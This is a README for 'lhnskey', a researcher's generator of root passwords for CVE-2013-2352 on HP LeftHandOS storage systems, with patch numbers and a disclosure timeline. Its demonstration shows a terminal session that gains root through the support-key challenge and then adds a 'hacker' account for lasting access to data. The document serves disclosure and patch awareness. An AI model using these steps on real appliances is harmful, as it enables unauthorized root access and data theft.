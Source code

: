LHNSKEY
=========

Generator for CVE-2013-2352.

By: technion@lolware.net

Affected Platforms:
    All Hardware and sofware implementations running LeftHandOS 10.5 or earlier, including Failover Manager and VSA.

Fix:
    Apply HP Patch 10152 (LefthandOS 10.5) or 10151 (LefthandOS 10.0).

Revision History:
----------------
    2nd July 2013: Initial design
    3th July 2013: Consulted with HP
    17th July 2013: HP Released Patch

Demonstration:
-------------
The lhnskey application will create an appropriate root password based on the support key encountered during logon.
I recommend the following site to create the s/key response: http://www.ocf.berkeley.edu/~jjlin/jsotp/md5/

    login as: root
    Support Key: 00:0C:29:XX:XX:XX
    Using keyboard-interactive authentication.
    Password:
    Using keyboard-interactive authentication.
    challenge s/key 99 loca11277
    password:

    #You may then grant yourself access to data by creating a CMC account
    [root@localhost lefthand]# adduser hacker 
    [root@localhost lefthand]# passwd hacker Changing password for user hacker.
    New UNIX password: <password>
    BAD PASSWORD: it is based on a dictionary word 
    Retype new UNIX password: <password>
    passwd: all authentication tokens updated successfully.
    [root@localhost lefthand]# chsh hacker
    Changing shell for hacker.
    New shell [/bin/bash]: /etc/lefthand/bin/cliq Shell changed.


Installation
------------
The official repository for lhnskey is the git tree. Install using the following:

    git clone https://github.com/technion/lhnskey
    ./configure
    make
    make check

The ./configure script accepts some options:

    --enable-development enable developer features default=no
    --enable-secure turn on security features default=yes

The autoconf script will link against OpenSSL if detected, otherwise, a shipped md5.c will be compiled in.
